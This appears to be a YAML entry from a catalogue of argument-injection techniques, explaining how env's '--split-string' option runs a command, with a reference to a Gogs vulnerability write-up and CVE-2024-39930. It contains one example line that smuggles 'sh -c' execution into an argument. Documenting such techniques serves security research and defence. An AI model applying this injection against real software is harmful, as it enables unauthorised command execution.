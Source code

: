 ```yaml
---
functions:
  command:
    - description: |
        The `--split-string` allows multiple additional arguments to be supplied. The first
        positional argument not containing an equals sign (`=`) will be executed as a
        command, all following arguments are passed to that command as arguments.
      code: |-
        env '--split-string=sh -c "id > /tmp/pwned"' foo 
      references:
        - title: "Securing Developer Tools: Unpatched Code Vulnerabilities in Gogs (1/2)"
          url: https://www.sonarsource.com/blog/securing-developer-tools-unpatched-code-vulnerabilities-in-gogs-1/
        - title: "CVE-2024-39930"
          url: https://nvd.nist.gov/vuln/detail/CVE-2024-39930
---
```

